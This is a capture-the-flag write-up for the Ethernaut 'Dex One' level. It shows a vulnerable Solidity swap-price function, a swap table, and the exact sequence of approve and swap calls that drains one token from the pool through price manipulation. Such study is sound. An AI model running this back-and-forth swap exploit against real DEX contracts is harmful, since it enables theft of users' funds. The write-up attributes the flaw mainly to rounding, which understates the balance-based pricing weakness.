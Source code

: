 # Dex One

# Problem Statement
```
The goal of this level is for you to hack the basic DEX contract below and steal the funds by price manipulation.

You will start with 10 tokens of token1 and 10 of token2. The DEX contract starts with 100 of each token.

You will be successful in this level if you manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.
```

**Quick note**<br>
Normally, when you make a swap with an ERC20 token, you have to approve the contract to spend your tokens for you. To keep with the syntax of the game, we've just added the approve method to the contract itself. So feel free to use contract.approve(contract.address, <uint amount>) instead of calling the tokens directly, and it will automatically approve spending the two tokens by the desired amount. Feel free to ignore the SwappableToken contract otherwise.

Things that might help:
- How is the price of the token calculated?
- How does the swap method work?
- How do you approve a transaction of an ERC20?

# Solution
Note that the Solidity doesn't allow for decimals when dividing and only returns the whole number. Because of this the `getSwapPrice` formula here is losing some precision and will return more tokens in the swap:
```
function getSwapPrice(address from, address to, uint amount) public view returns(uint){
  return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
}
```

So all we have to do is to swap back and forth until we've drained the pool. Here is a visualization:
```
swap price                me: token1 token2     dex: token1 token2
amt * to / from               10     10              100    100
10 * 100 / 100  =  10          0     20              110     90
20 * 110 /  90  =  24         24      0               86    110
24 * 110 /  86  =  30          0     30              110     80
30 * 110 /  80  =  41         41      0               69    110
41 * 110 /  69  =  65          0     65              110     45
note here 158 is above the dex total of 110 tokens:
65 * 110 /  45  = 158        100      0                0    100
So all we need to do is calculate for 110 tokens:
x * 110 / 45 = 110
x / 45 = 1
x = 45
```

Calls:
```
const t1 = await contract.token1()
const t2 = await contract.token2()
Number(await contract.balanceOf(t1,player))
// returns 10
Number(await contract.balanceOf(t2,player))
// returns 10
Number(await contract.balanceOf(t2,contract.address))
// returns 100
Number(await contract.balanceOf(t1,contract.address))
// returns 100
await contract.approve(contract.address, 200)
await contract.swap(t1,t2,10)
Number(await contract.balanceOf(t1,player))
// returns 0
Number(await contract.balanceOf(t2,player))
// returns 20
await contract.swap(t2,t1,20)
Number(await contract.balanceOf(t1,player))
// returns 24
Number(await contract.balanceOf(t2,player))
// returns 0
await contract.swap(t1,t2,24)
Number(await contract.balanceOf(t1,player))
// returns 0
Number(await contract.balanceOf(t2,player))
// returns 30
await contract.swap(t2,t1,30)
Number(await contract.balanceOf(t1,player))
// returns 41
await contract.swap(t1,t2,41)
Number(await contract.balanceOf(t2,player))
// returns 65
await contract.swap(t2,t1,45)
Number(await contract.balanceOf(t1,player))
// returns 110
```
We've completed this lesson!

# Key Learnings
- solidity divison rounds down to a whole number but you can use modulus `%` to get the remainder
- getting prices or any sort of data from any single source is a possible attack vector in smart contracts

